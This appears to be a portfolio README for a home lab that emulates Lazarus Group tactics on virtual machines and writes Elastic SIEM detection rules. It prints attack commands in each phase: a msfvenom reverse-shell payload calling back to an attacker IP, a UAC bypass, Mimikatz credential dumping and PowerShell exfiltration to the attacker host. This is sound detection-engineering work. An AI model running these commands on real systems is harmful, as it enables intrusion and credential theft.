# Lazarus Group APT Simulation Lab

> **ATT&CK · CAR · D3FEND** — Detection engineering lab simulating Lazarus Group (G0032) tactics on Elastic SIEM


> ⚠️ **Disclaimer** — This lab is built for educational and portfolio purposes only. All techniques were executed in an isolated virtual environment with no connection to production systems or real targets. Do not replicate outside a controlled lab environment.

---

## Overview

This lab simulates a realistic 5-phase kill chain based on documented **Lazarus Group (G0032)** tactics from the MITRE ATT&CK framework. Each phase is mapped to a **CAR analytic** for detection and a **D3FEND countermeasure** for mitigation.

The goal is to demonstrate end-to-end detection engineering skills: from adversary emulation to SIEM rule writing to defensive recommendations.

---

## Lab Architecture

```
┌─────────────────┐         ┌─────────────────┐         ┌─────────────────┐
│   Kali Linux    │ ──────▶ │  Windows 11 Pro │ ──────▶ │  Ubuntu Server  │
│   (Attacker)    │         │   (Victim)      │         │  Elastic SIEM   │
│  192.168.1.56   │         │ 192.168.1.146   │         │ 192.168.1.122   │
└─────────────────┘         └─────────────────┘         └─────────────────┘
   Metasploit                  Sysmon v15.21               Elasticsearch
   msfvenom                    Elastic Agent               Kibana
                               SwiftOnSecurity cfg         Fleet Server
```

**Network:** VMware Workstation, bridged mode  
**Hypervisor:** VMware Workstation Pro  
**SIEM:** Elastic Stack 8.19 (Elasticsearch + Kibana + Fleet)  
**Log collector:** Elastic Agent 8.19 + Sysmon 15.21

---

## Kill Chain Overview

| Phase | Tactic | ATT&CK | CAR Analytic | D3FEND Countermeasure |
|-------|--------|--------|--------------|----------------------|
| 1 | Initial Access | T1566.001 — Spearphishing Attachment | CAR-2019-04-002 | Inbound traffic filtering + sandboxing |
| 2 | Execution | T1059.001 — PowerShell | CAR-2014-04-003 | Script execution policy + allowlisting |
| 3 | Defense Evasion | T1055 — Process Injection | CAR-2020-11-003 | Process isolation + memory protection |
| 4 | Credential Access | T1003.001 — LSASS Memory | CAR-2019-08-001 | Credential hardening + LSA Protection |
| 5 | Exfiltration | T1041 — Exfiltration over C2 | CAR-2013-10-002 | Network traffic filtering + DNS inspection |

---

## Phase 1 — Initial Access (T1566.001)

### ATT&CK

Lazarus Group delivers malicious payloads via spearphishing emails with attachments. In this lab, a stageless Meterpreter executable simulates the malicious attachment delivered to the victim.

**Simulation:**
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp \
  LHOST=192.168.1.56 \
  LPORT=4444 \
  -f exe \
  -o lazarus_update.exe
```

The payload was served via HTTP and executed on Windows 11 after disabling Defender real-time protection (lab environment only).

### CAR Analytic — CAR-2019-04-002

Monitors for email attachment execution patterns. In this lab, maps to Sysmon **Event ID 1** (ProcessCreate) for the initial payload execution.

**Sysmon Event ID:** 1 (ProcessCreate)  
**Key fields:** `Image`, `ParentImage`, `CommandLine`

### D3FEND Countermeasure

- **Inbound traffic filtering** — block executable attachments at the email gateway
- **File sandboxing** — detonate attachments in an isolated environment before delivery
- **User training** — reduce susceptibility to social engineering

---

## Phase 2 — Execution (T1059.001)

### ATT&CK

Lazarus Group uses PowerShell extensively for execution and in-memory command execution to avoid writing files to disk.

**Simulation (from Meterpreter session):**
```bash
execute -f powershell.exe -a "-NoProfile -NonInteractive -Command whoami; hostname; Get-Process" -i -H
```

### CAR Analytic — CAR-2014-04-003

Detects PowerShell execution, especially when spawned outside normal user context.

**Sysmon Event ID:** 1 (ProcessCreate)  
**Key fields:** `Image: powershell.exe`, `ParentImage`

**EQL Detection Rule (Kibana):**
```eql
process where event.code == "1"
  and process.name == "powershell.exe"
  and process.parent.name != "explorer.exe"
```

**Results in Kibana:** 21 matching events detected from `Guest-Windows`

### D3FEND Countermeasure

- **Script execution policy** — enforce `AllSigned` or `RemoteSigned` PowerShell policy
- **Application allowlisting** — block unauthorized PowerShell scripts via AppLocker
- **PowerShell Constrained Language Mode** — restrict available cmdlets

---

## Phase 3 — Defense Evasion (T1055)

### ATT&CK

Lazarus Group injects malicious code into legitimate processes to evade detection and blend in with normal system activity.

**Simulation (from Meterpreter session):**
```bash
# Find target process
ps | grep notepad.exe

# Inject into legitimate process
migrate <PID>
```

Meterpreter migrated from the initial payload process into `notepad.exe`, triggering a remote thread creation.

### CAR Analytic — CAR-2020-11-003

Detects remote thread creation into other processes.

**Sysmon Event ID:** 8 (CreateRemoteThread)  
**Key fields:** `SourceImage`, `TargetImage`

**EQL Detection Rule (Kibana):**
```eql
process where event.code == "8"
  and winlog.event_data.TargetImage like~ "*notepad.exe"
```

### D3FEND Countermeasure

- **Process isolation** — use Windows Defender Credential Guard and virtualization-based security
- **Memory protection** — enable Arbitrary Code Guard (ACG) via Windows Defender Exploit Guard
- **Behavioral monitoring** — alert on cross-process memory writes from unexpected sources

---

## Phase 4 — Credential Access (T1003.001)

### ATT&CK

Lazarus Group uses Mimikatz to dump credentials from LSASS memory, obtaining NTLM hashes and plaintext passwords for lateral movement.

**Simulation (from elevated Meterpreter session):**
```bash
# Escalate to SYSTEM
use exploit/windows/local/bypassuac_sdclt
getsystem

# Load Mimikatz and dump credentials
load kiwi
lsa_dump_sam
lsa_dump_secrets
```

**Extracted artifacts:**
- SysKey: `f355c763e84e91db34102b0a9d07ec79`
- DPAPI_SYSTEM master key (current + previous)
- NL$KM cached credentials key

### CAR Analytic — CAR-2019-08-001

Detects process access to LSASS memory with suspicious GrantedAccess flags typical of credential dumping tools.

**Sysmon Event ID:** 10 (ProcessAccess)  
**Key fields:** `TargetImage: lsass.exe`, `GrantedAccess`

**EQL Detection Rule (Kibana):**
```eql
process where event.code == "10"
  and winlog.event_data.TargetImage like~ "*lsass.exe"
  and winlog.event_data.GrantedAccess in ("0x1010", "0x1410", "0x1438", "0x143a")
```

**Sysmon config required:**
```xml
<Sysmon schemaversion="4.50">
  <EventFiltering>
    <ProcessAccess onmatch="include">
      <TargetImage condition="is">C:\Windows\system32\lsass.exe</TargetImage>
    </ProcessAccess>
  </EventFiltering>
</Sysmon>
```

### D3FEND Countermeasure

- **LSA Protection** — enable `RunAsPPL` to protect LSASS as a Protected Process Light
- **Credential Guard** — isolate LSASS in a virtualization-based security enclave
- **Disable WDigest** — prevent plaintext password caching: `HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential = 0`

---

## Phase 5 — Exfiltration (T1041)

### ATT&CK

Lazarus Group exfiltrates stolen data over existing C2 channels using HTTP/HTTPS to blend with normal traffic.

**Simulation:**
```bash
# Upload sensitive file to victim
upload /etc/passwd C:\\Windows\\Temp\\exfil.txt

# Download stolen file to attacker
download C:\\Windows\\Temp\\exfil.txt /tmp/stolen.txt

# Simulate C2 exfiltration via PowerShell
execute -f powershell.exe \
  -a "-Command Invoke-WebRequest -Uri http://192.168.1.56:8080 -Method GET" \
  -i -H
```

### CAR Analytic — CAR-2013-10-002

Detects unusual outbound network connections from processes that do not normally generate network traffic.

**Sysmon Event ID:** 3 (NetworkConnect)  
**Key fields:** `Image: powershell.exe`, `DestinationIp`, `DestinationPort`

**EQL Detection Rule (Kibana):**
```eql
network where event.code == "3"
  and process.name == "powershell.exe"
  and destination.ip != "127.0.0.1"
```

### D3FEND Countermeasure

- **Network traffic filtering** — block outbound connections from `powershell.exe` via Windows Firewall rules
- **DNS inspection** — monitor for DNS tunneling and unusual query patterns
- **Egress filtering** — whitelist approved destination IPs and ports at the perimeter firewall

---

## Sysmon Configuration

The lab uses a customized Sysmon configuration based on [SwiftOnSecurity/sysmon-config](https://github.com/SwiftOnSecurity/sysmon-config) with an additional rule for LSASS monitoring:

```xml
<ProcessAccess onmatch="include">
  <TargetImage condition="is">C:\Windows\system32\lsass.exe</TargetImage>
</ProcessAccess>
```

**Sysmon Event IDs monitored:**

| Event ID | Event Name | Phases |
|----------|------------|--------|
| 1 | ProcessCreate | Phase 1, 2 |
| 3 | NetworkConnect | Phase 5 |
| 8 | CreateRemoteThread | Phase 3 |
| 10 | ProcessAccess | Phase 4 |
| 11 | FileCreate | All |

---

## Kibana Detection Rules Summary

| Rule Name | Type | Severity | MITRE |
|-----------|------|----------|-------|
| Lazarus - T1059.001 PowerShell Execution | Event Correlation (EQL) | High | TA0002 / T1059.001 |
| Lazarus - T1055 Process Injection | Event Correlation (EQL) | High | TA0005 / T1055 |
| Lazarus - T1003.001 LSASS Memory Access | Event Correlation (EQL) | Critical | TA0006 / T1003.001 |
| Lazarus - T1041 Exfiltration over C2 | Event Correlation (EQL) | Critical | TA0010 / T1041 |

---

## Screenshots

### Phase 1 — Initial Access

| | |
|---|---|
|  | **Payload generation** — `msfvenom` creates a stageless Meterpreter reverse TCP executable (`lazarus_update.exe`) simulating a Lazarus Group malicious attachment |
|  | **Payload delivery** — Python HTTP server on Kali serves the payload; Windows 11 victim downloads and executes it (`GET /update.exe HTTP/1.1 200`) |
|  | **Initial access established** — Meterpreter session 1 opens from `192.168.1.146` (Windows 11) to `192.168.1.56` (Kali) on port 4444 |

---

### Phase 2 — Execution

| | |
|---|---|
|  | **PowerShell execution** — Meterpreter spawns `powershell.exe` with `-NoProfile -NonInteractive` flags, executing `whoami`, `hostname`, and `Get-Process` on the victim. Output confirms execution as `guest-windows\guestwindows` |
|  | **Sysmon EID 1 in Kibana Discover** — 40 ProcessCreate events for `powershell.exe` visible in the `windows.sysmon_operational` dataset |
|  | **EQL detection rule** — Kibana rule `Lazarus - T1059.001 PowerShell Execution` with MITRE ATT&CK mapping to TA0002/T1059, severity High, risk score 73 |
|  | **21 alerts triggered** — Kibana Security Alerts dashboard showing 21 High severity alerts from `guest-windows`, all matched by the custom EQL rule |

---

### Phase 3 — Defense Evasion

| | |
|---|---|
|  | **Process injection** — Meterpreter migrates from PID 5500 into `explorer.exe` (PID 7148), injecting into a legitimate Windows process to evade detection |
|  | **Privilege escalation attempt** — initial `getsystem` fails; all Named Pipe Impersonation techniques blocked, demonstrating Windows 11 hardening |
|  | **Local exploit discovery** — `local_exploit_suggester` identifies 13 potential vectors including `bypassuac_sdclt` and `bypassuac_fodhelper` on Windows 11 Build 26200 |

---

### Phase 4 — Credential Access

| | |
|---|---|
|  | **UAC bypass successful** — `bypassuac_sdclt` elevates privileges, opens Meterpreter session 2 with high integrity, registry changes auto-cleaned |
|  | **SYSTEM privileges obtained** — `getsystem` succeeds via Named Pipe Impersonation (In Memory/Admin) technique 1 |
|  | **SAM database dumped** — Mimikatz (kiwi) running as SYSTEM extracts SysKey, SAMKey, and NTLM hashes for all local accounts including `Administrator`, `Guest`, and `WDAGUtilityAccount` |
|  | **LSA secrets extracted** — DPAPI_SYSTEM master keys (current + previous) and NL$KM cached domain credential keys successfully dumped |
|  | **EQL detection rule** — Kibana rule `Lazarus - T1003.001 LSASS Memory Access` with severity Critical, risk score 99, MITRE mapping to TA0006/T1003 |

---

### Phase 5 — Exfiltration

| | |
|---|---|
|  | **Data exfiltration** — Meterpreter uploads `/etc/passwd` to victim (`C:\Windows\Temp\exfil.txt`), downloads it to attacker, then spawns PowerShell to simulate C2 HTTP exfiltration via `Invoke-WebRequest` to `192.168.1.56:8080` |

---

## Key Findings

- Elastic Agent + Sysmon successfully captured all simulated attack phases
- LSASS access required a custom Sysmon `ProcessAccess` rule not present in the default SwiftOnSecurity config
- UAC bypass via `bypassuac_sdclt` (CVE not required) succeeded on Windows 11 Build 26200
- EQL rules in Kibana provide native ATT&CK tagging and alert management

---

## References

- [Lazarus Group — MITRE ATT&CK G0032](https://attack.mitre.org/groups/G0032/)
- [CAR-2019-04-002](https://car.mitre.org/analytics/CAR-2019-04-002/)
- [CAR-2014-04-003](https://car.mitre.org/analytics/CAR-2014-04-003/)
- [CAR-2020-11-003](https://car.mitre.org/analytics/CAR-2020-11-003/)
- [CAR-2019-08-001](https://car.mitre.org/analytics/CAR-2019-08-001/)
- [CAR-2013-10-002](https://car.mitre.org/analytics/CAR-2013-10-002/)
- [MITRE D3FEND](https://d3fend.mitre.org/)
- [SwiftOnSecurity Sysmon Config](https://github.com/SwiftOnSecurity/sysmon-config)
- [Elastic EQL Documentation](https://www.elastic.co/guide/en/elasticsearch/reference/current/eql.html)

---

## Author

**Manu** — Cybersecurity Home Lab Portfolio  
Built with: Elastic SIEM · Metasploit · Sysmon · MITRE ATT&CK · CAR · D3FEND

---

## Screenshots

### Phase 1 — Initial Access

**Payload creation with msfvenom**  
  
*Stageless Meterpreter payload generated with msfvenom targeting Windows x64*

**Payload delivery via HTTP**  
  
*Python HTTP server on Kali serving `update.exe` — Windows 11 victim downloads and executes the file*

**Payload on victim machine**  
  
*`lazarus_update.exe` present in Downloads folder after delivery. Windows Defender disabled for lab purposes.*

---

### Phase 2 — Execution

**Meterpreter session established**  
  
*Reverse TCP handler receives connection from Windows 11 (192.168.1.146) — Meterpreter session 1 opened*

**Sysmon EID 1 detected in Kibana Discover**  
  
*40 ProcessCreate events (EID 1) for `powershell.exe` captured in Kibana — data_stream: windows.sysmon_operational*

**Custom EQL rule — T1059.001**  
  
*Kibana detection rule with EQL query, MITRE ATT&CK mapping (TA0002/T1059), severity High, risk score 73*

**Alert triggered — 21 detections**  
  
*21 High severity alerts generated by rule `Lazarus - T1059.001 PowerShell Execution` on host `guest-windows`*

---

### Phase 3 — Defense Evasion

**Local exploit suggester**  
  
*`local_exploit_suggester` scanning 2654 exploits against Windows 11 Build 26200*

**All vulnerabilities found**  
  
*13 potentially exploitable modules identified including bypassuac_sdclt, bypassuac_fodhelper, and persistence modules*

**getsystem failed (initial attempt)**  
  
*Initial `getsystem` attempt failed — all Named Pipe Impersonation techniques blocked without admin token*

**UAC bypass via bypassuac_sdclt**  
  
*`bypassuac_sdclt` configured with SESSION 2, payload windows/x64/meterpreter/reverse_tcp on port 5555*

**Process injection into explorer.exe**  
  
*Meterpreter migrated from PID 5500 into `explorer.exe` (PID 7148) — T1055 Process Injection successful*

---

### Phase 4 — Credential Access

**LSA Secrets dumped via Mimikatz**  
  
*Running as SYSTEM — extracted SysKey, DPAPI_SYSTEM master keys (current + previous), and NL$KM cached credentials*

---

### Phase 5 — Exfiltration

**File exfiltration over C2 channel**  
  
*`/etc/passwd` uploaded to victim, downloaded back to attacker, then PowerShell Invoke-WebRequest simulates C2 exfiltration to 192.168.1.56:8080*

---

## Disclaimer

This lab was conducted in an isolated VMware environment for educational purposes only. All simulated attacks were performed on virtual machines owned and controlled by the author. No real systems were harmed or compromised.

The techniques documented here are based on publicly available threat intelligence from MITRE ATT&CK (G0032 — Lazarus Group). This project is intended to demonstrate detection engineering skills, not to facilitate malicious activity.